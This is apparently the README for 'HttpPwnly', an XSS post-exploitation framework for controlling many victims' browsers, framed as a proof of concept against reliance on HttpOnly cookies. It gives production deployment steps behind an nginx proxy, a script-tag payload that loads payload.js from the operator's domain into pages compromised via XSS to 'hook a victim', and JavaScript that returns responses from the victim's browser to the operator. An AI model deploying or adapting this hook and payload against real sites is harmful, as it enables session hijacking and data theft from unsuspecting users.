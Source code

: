 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
```
pip install -r requirements.txt
```

## Usage:
to run the tool, simply use:
```
python httppwnly.py
```
For production usage, you should run and configure a reverse proxy which offers both HTTP on port 80 and HTTPS on port 443 with a properly signed SSL certificate. This is free and fairly straightforward with Lets Encrypt providing you own a domain. See "Reverse proxy" below for further info and a copy-paste nginx config.

When you run httppwnly, a randomly generated password for the user "admin" will be displayed in the terminal. At this point, visit https://[yourdomain]/login in your browser. After logging in, you will have access to the /dashboard.

In order to hook a victim, you should write the following script tag to a page via XSS:
```
<script id="hacker" src="//[yourdomain]/payload.js"></script>
```

## Demo:
[![Demo Video](http://img.youtube.com/vi/spfrmsbhBaw/0.jpg)](https://www.youtube.com/watch?v=spfrmsbhBaw "HttpPwnly Update Demo")


## Asynchronous payloads:
To override normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```

## Reverse proxy:
HttpPwnly will bind to localhost:5000. In order to make the framework accessible remotely, the best approach is to use a reverse proxy. It's also recommended to offer HTTP as well as HTTPS, another reason to use a reverse proxy! I personally recommend using nginx for this. This is a working nginx config file:
```
server {
    listen 80;
    server_name example.com;

    location / {
        proxy_pass http://127.0.0.1:5000;
        proxy_http_version 1.1;
        proxy_buffering off;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "Upgrade";

    }
}
server {
    listen 443 ssl;
    server_name example.com;
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem;
    location / {
        proxy_pass http://127.0.0.1:5000;
        proxy_http_version 1.1;
        proxy_buffering off;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "Upgrade";

    }
}
```
